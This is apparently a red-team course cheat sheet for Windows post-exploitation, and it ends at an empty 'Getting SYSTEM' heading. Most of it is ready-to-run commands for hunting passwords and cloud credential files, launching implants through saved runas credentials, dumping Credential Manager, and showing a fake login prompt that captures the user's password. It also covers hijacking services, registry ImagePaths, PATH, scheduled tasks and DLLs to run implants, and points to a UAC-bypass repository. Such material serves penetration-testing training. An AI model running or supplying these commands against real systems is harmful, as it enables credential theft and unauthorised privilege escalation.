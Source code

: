 # RTO Sektor 7 Cheat Sheet

### Credentials

- Search for password

```
C:\> dir /b /a /s c:\ > c:\rto\c-dirs.txt
C:\> type c:\rto\c-dirs.txt | findstr /i passw
```

- Search for interesting files

```
C:\> type c:\rto\c-dirs.txt | findstr /i ssh
C:\> type c:\rto\c-dirs.txt | findstr /i kdbx
C:\> type c:\rto\c-dirs.txt | findstr /i vnc
```

- Good targets:

  - install, backup, .bak, .log, .bat, .cmd, .vbs, .cnf, .conf, .config, .ini, .xml, .txt, .gpg, .pgp, .p12, .der, .csr, .cer, id_rsa, id_dsa, .ovpn, .rdp, vnc, ftp, ssh, vpn, git, .kdbx, .db
  - unattend.xml
  - Unattended.xml
  - sysprep.inf
  - sysprep.xml
  - VARIABLES.DAT
  - setupinfo
  - setupinfo.bak
  - web.config
  - SiteList.xml
  - .aws\credentials
  - .azure\accessTokens.json
  - .azure\azureProfile.json
  - gcloud\credentials.db
  - gcloud\legacy_credentials
  - gcloud\access_tokens.db
 
- Search for passwords in the Registry

```
C:\> reg query "HKCU\Software\ORL\WinVNC3\Password"
C:\> reg query "HKCU\Software\TightVNC\Server"
C:\> reg query "HKCU\Software\SimonTatham\PuTTY\Sessions"
C:\> reg query "HKCU\Software\OpenSSH\Agent\Keys"
C:\> reg query HKLM /f password /t REG_SZ /s
C:\> reg query HKCU /f password /t REG_SZ /s
```

- Abuse Credential Manager

```
C:\> cmdkey /list
C:\> runas /savecred /user:admin cmd.exe
C:\> runas /savecred /user:admin c:\rto\lpe\implant\implant.exe
C:\> runas /savecred /user:admin "c:\windows\system32\cmd /c dir /b /a /s c:\users\admin > c:\rto\admin.txt"
```

- Rob Credential Manager

```
C:\> powershell Import-Module c:\rto\lpe\cms.ps1 ; Enum-Creds
```

- Ask user for credentials using a trick prompt

```
C:\> powershell "$cred = $host.ui.promptforcredential('Failed Authentication','',[Environment]::UserDomainName+'\'+[Environment]::UserName,[Environment]::UserDomainName); $cred.getnetworkcredential().password"
C:\> powershell "$cred = $host.ui.promptforcredential('Failed Authentication','',[Environment]::UserDomainName+'\'+'admin',[Environment]::UserDomainName); $cred.getnetworkcredential().password"
```

### Unsecured Objects

- Search for unquoted service paths

```
C:\> wmic service get name,displayname,pathname,startmode |findstr /i "auto" |findstr /i /v "c:\windows\\" |findstr /i /v """"
```

- Search for services with weak permissions

```
C:\> c:\rto\tools\si\accesschk.exe -accepteula -wuvc "Everyone" *
C:\> c:\rto\tools\si\accesschk.exe -accepteula -wuvc "Users" *
C:\> c:\rto\tools\si\accesschk.exe -accepteula -wuvc "Authenticated Users" *

C:\> sc query sshd
C:\> sc qc sshd
C:\> sc config sshd binPath= "c:\rto\lpe\implant\implant.exe"
C:\> sc start sshd

C:\> sc stop sshd
C:\> sc config sshd binPath= "c:\Program Files\OpenSSH\sshd.exe"
```

- Search for service Registry keys with weak permissions

```
C:\> c:\RTO\Tools\SI\accesschk.exe -accepteula -kvuqsw hklm\System\CurrentControlSet\services > c:\rto\regs.txt

C:\> reg query HKLM\SYSTEM\CurrentControlSet\services\IKEEXT
C:\> reg add HKLM\SYSTEM\CurrentControlSet\services\IKEEXT /v ImagePath /t REG_EXPAND_SZ /d C:\rto\lpe\implant\implantsrv.exe /f
C:\> sc stop ikeext
C:\> sc start ikeext

C:\> reg add HKLM\SYSTEM\CurrentControlSet\services\IKEEXT /v ImagePath /t REG_EXPAND_SZ /d "%systemroot%\system32\svchost.exe -k netsvcs -p" /f
```

### Execution Flow Hijacking

- Search for files with weak permissions

```
C:\> c:\rto\tools\si\accesschk.exe -accepteula -wus "Users" c:\*.* > c:\rto\fld-usr.txt
C:\> c:\rto\tools\si\accesschk.exe -accepteula -wus "Authenticated Users" c:\*.* > c:\rto\fld-authusr.txt
```

- Exploit the PATH variable

```
C:\> reg query "HKLM\SYSTEM\CurrentControlSet\Control\Session Manager\Environment"
C:\> icacls c:\rto\bin
C:\> copy c:\windows\system32\cmd.exe c:\rto\bin\notepad.exe

C:\> del c:\rto\bin\notepad.exe
```

- Exploit a missing service

```
C:\> c:\RTO\Tools\si\autorunsc64.exe -a s | more
C:\> sc query AdobeUpdate
C:\> sc qc AdobeUpdate
C:\> copy c:\RTO\LPE\implant\implantsrv.exe c:\rto\bin\AdobeUpdate.exe

C:\> sc stop AdobeUpdate
C:\> sc start AdobeUpdate

C:\> del c:\rto\bin\AdobeUpdate.exe
```

- Exploit a missing scheduled task

```
C:\> c:\RTO\Tools\si\autorunsc64.exe -a t | more
C:\> schtasks /query /tn OneDriveChk /xml

C:\> wmic useraccount where sid='S-1-5-21-3461203602-4096304019-2269080069-1003' get name

C:\> copy c:\RTO\LPE\implant\implant.exe C:\RTO\bin\OneDriveChk.exe

C:\> del C:\RTO\bin\OneDriveChk.exe
```

- Hijack a DLL

```
C:\> cd c:\RTO\LPE\DLL-hijack
C:\> compile.bat
C:\> copy c:\RTO\LPE\DLL-hijack\winmm.dll c:\RTO\Tools\putty\

C:\> del c:\RTO\Tools\putty\winmm.dll
```

- Bypass UAC

```
Repo with up-to-date UAC bypass exploits:
https://github.com/hfiref0x/UACME
```

### Getting SYSTEM
